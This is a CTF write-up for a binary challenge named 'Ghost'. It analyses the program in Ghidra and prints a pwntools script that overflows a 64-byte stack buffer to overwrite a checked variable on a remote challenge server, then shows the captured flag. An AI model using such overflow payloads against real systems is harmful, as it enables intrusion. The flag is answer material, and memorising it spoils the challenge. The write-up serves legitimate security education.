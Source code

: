 # Ghost

> Find the flag.

Download the attachment [here](file/ghost)

## How to Solve

First we will do static analysis with `Ghidra`, and look to main function

![POC 1](images/POC%201.jpg)

At variable `local_164` is have 64 bytes size so we need filled them and make sure the variable `local_128` is equal to `0x44434241`

This the solver I use

```
from pwn import *

exe = './ghost'
host, port = '139.144.184.150', 4000
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(exe)
context.log_level = 'info'

# io = process(exe)
io = remote(host, port)

offset = b'A'*64

payload = flat([
    offset,
    0x44434241
])

io.sendline(payload)
io.interactive()
```

![POC 2](images/POC%202.jpg)

And we got flag

```
BDSEC{You_have_been_haunted_by_a_ghost!}
```
